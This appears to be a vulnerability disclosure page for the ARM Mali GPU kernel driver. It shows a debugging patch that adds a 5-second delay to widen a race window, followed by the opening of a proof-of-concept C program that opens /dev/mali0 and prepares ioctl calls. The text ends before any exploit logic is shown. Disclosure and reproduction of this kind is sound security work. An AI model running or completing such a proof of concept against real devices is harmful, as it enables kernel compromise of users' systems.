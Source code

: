 ```c
 	synchronize_rcu();

+	if (strcmp(current->comm, "SLOWME") == 0) {
+		pr_warn("%s: begin delay injection\n", __func__);
+		mdelay(5000);
+		pr_warn("%s: end delay injection\n", __func__);
+	}
+
 	pages = atomic_xchg(&kctx->nonmapped_pages, 0);
 #ifdef SPLIT_RSS_COUNTING
 	kbasep_add_mm_counter(mm, MM_FILEPAGES, -pages);
 #else
 	spin_lock(&mm->page_table_lock);
```

poc.c:
```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <err.h>
#include <stdint.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <sys/prctl.h>

#define SYSCHK(x) ({          \
  typeof(x) __res = (x);      \
  if (__res == (typeof(x))-1) \
    err(1, "SYSCHK(" #x ")"); \
  __res;                      \
})

#define KBASE_IOCTL_TYPE 0x80

#define __u8  uint8_t
#define __u16 uint16_t
#define __u32 uint32_t
#define __u64 uint64_t

struct kbase_ioctl_version_check {
        __u16 major;
        __u16 minor;
};
#define KBASE_IOCTL_VERSION_CHECK \
        _IOWR(KBASE_IOCTL_TYPE, 0, struct kbase_ioctl_version_check)

struct kbase_ioctl_set_flags {
        __u32 create_flags;
};
#define KBASE_IOCTL_SET_FLAGS \
        _IOW(KBASE_IOCTL_TYPE, 1, struct kbase_ioctl_set_flags)

#define LOCAL_PAGE_SHIFT 12
#define BASE_MEM_MAP_TRACKING_HANDLE (3ul << LOCAL_PAGE_SHIFT)

int main(void) {
  int mali_fd = SYSCHK(open("/dev/mali0", O_RDWR));

  struct kbase_ioctl_version_check vc = {
    .major = 11,
    .minor = 11
```